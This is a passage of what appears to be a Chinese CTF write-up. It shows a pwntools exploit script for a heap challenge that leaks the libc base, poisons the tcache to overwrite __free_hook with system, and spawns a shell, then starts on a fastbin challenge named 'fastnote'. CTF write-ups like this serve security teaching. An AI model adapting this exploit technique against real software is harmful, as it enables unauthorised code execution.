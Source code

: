 ```plain

def edit(idx,content):
    choice(edit_idx)
    sla('Index: ',idx)
    sla('Content: ',content)

for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

#duan()
show(7)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

edit(8,'/bin/sh\x00')
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

edit(6,p64(free_hook))
#duan()

add(10,0x88)
add(11,0x88)
#duan()
edit(11,p64(system))
#duan()
delete(8)
p.interactive()
```

## fastnote

### 思路

GLIBC 2.31-0ubuntu9.14  
限制申请大小为 0x80，无 edit，打 fastbin
